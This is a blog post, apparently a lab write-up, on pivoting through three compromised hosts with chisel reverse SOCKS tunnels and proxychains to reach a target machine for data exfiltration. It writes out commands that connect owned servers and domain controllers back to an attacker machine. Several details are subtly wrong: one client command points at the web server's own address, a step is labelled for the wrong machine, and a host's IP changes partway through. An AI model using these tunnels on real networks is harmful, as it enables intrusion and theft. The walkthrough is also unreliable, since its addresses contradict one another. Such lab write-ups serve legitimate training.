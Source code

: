```yaml
---
title:  Pivoting with Chisel
date: 2020-11-18 12:17:34 -0400
categories: [Pentesting , Pivoting]
tags: [pivot, red, team, network, chisel]
---
```


# Summary
Recently I've completed the Hack The Box Dante Pro Labs and really enjoyed it. One of the most crucial pieces to being successful in the lab is understanding how to pivot properly. So I wanted to write up a blog post explaining how to properly pivot.

# Network
Below is a simulated network that I have drawn up to help understand things a bit more visually as I set though setting up or proxy tunnels.

![Desktop View](/assets/img/post/2020-11-18-pivoting-with-chisel/network.png)


Lets assume that we have intel that there is a computer on the Admin network and we need to gain access to it so we can being to exfil data from it. Our attacker machine is `10.10.101.51` and there is a web server that is internet facing and we can use that machine to get onto the network. The Web Server has an IP of `10.10.101.50`. Lets assume that you have a foothold or even root/admin on the web server and you want begin to do recon of the internal network. There are a ton of ways to go about doing this. The easiest way is to just transfer  a tool such as nmap directly on the machine we have access to and scan the internal network. Another way is to use a dynamic ssh tunnel utilizing socks4 if available of course and use proxychains and nmap to yield results, but this is slow. If you have access to Cobalt Strike then you can also use a beacon to setup proxy to pivot through that too. But the main focus of this post is to understand how to properly pivot without those other methods and use chisel instead.

First we need to start a chisel server running on port 8001 our machine so we can pivot through the `10.10.101.50` machine and gain access to the network. Run the command below to start a server:

```shell
#Run command on attacker machine (10.10.101.51)
./chisel server -p 8001 --reverse
```

Assuming we have a foothold on the Web Server we can transfer chisel to the machine and connect back to our chisel server to complete the tunnel.

```shell
#Run command on Web Server machine (172.16.1.101 || 10.10.101.50)
./chisel client 10.10.101.50:8001 R:1080:socks
```
This will create a reverse proxy and open port 1080 on our machine. Now we can modify our proxychains.conf file to use this proxy. At the bottom of the `/etc/proxychains.conf` add `socks5 127.0.0.1 1080`. Now that we have this working we can use this to conduct a simple nmap of the internal network.

```shell
#Run command on Web Server machine (172.16.1.101 || 10.10.101.50)
proxychains4 nmap 172.16.1.1/24
```

Now that we have gathered all the info about our current subnet and gained access to all the computers including the domain controller we now want to pivot into the second subnet. We are assuming that the domain controller on the Office Network has a trust with the Admin Network. To begin our next pivot we need to transfer chisel to the Windows domain controller to we can make the next pivot. Then we need to go to our Web Server that we are currently using to pivot onto the Office Network and start up a server in addition to our already running client connection command we ran above.

```shell
#Run command on Web Server machine (172.16.1.101 || 10.10.101.50)
./chisel server -p 8002 --reverse
```
Then on the domain controller in the office network we want create a new connection that will connect to the chisel server running on 172.16.1.101 on port 8002

```shell
#Run command on Office Domain Controller machine (172.16.1.5)
chisel.exe client 172.16.1.101:8002 R:2080:socks
```
Finally we now want to add this new connection in our `proxychains.conf` which will look like something below.

```
socks5 127.0.0.1 1080 
socks5 127.0.0.1 2080 
```

Our connection should now now be 
<img src="/assets/img/post/2020-11-18-pivoting-with-chisel/network2.png" style="width: 75%" >

Now that we can tunnel through the domain controller we can do some more recon and find the IP of the domain controller of the Admin network. Now that we know the IP of the DC in Admin network is `172.16.2.10` we can attack this machine. Lets assume that we now have access to the domain controller in the Admin network. We now want to pivot again from the Office network DC to the Admin network DC so we can recon and eventually gain access to our target computer on the Admin network (`172.16.2.200`). First we want to create a server on the Office DC 

```shell
#Run command on Office Domain Controller machine (172.16.1.5 )
chisel.exe server -p 8003 --reverse
```
Then on the Admin DC we want to run the following command to connect back to our domain controller.

```shell
#Run command on Admin Domain Controller machine (172.16.2.5)
chisel.exe client 172.16.1.5:8003 R:3080:socks
```
Finally we want to add a third entry into our `proxychains.conf`

```
socks5 127.0.0.1 1080 
socks5 127.0.0.1 2080 
socks5 127.0.0.1 3080 
```

We have now successfully pivoted three times to get to our target goal which is to have access to the target computer on the admin network. The proxy connections should look something like below. Since we own the domain controller we can now use this to gain access to login to the machine at `172.16.2.200`

<img src="/assets/img/post/2020-11-18-pivoting-with-chisel/network3.png" style="width: 75%" >



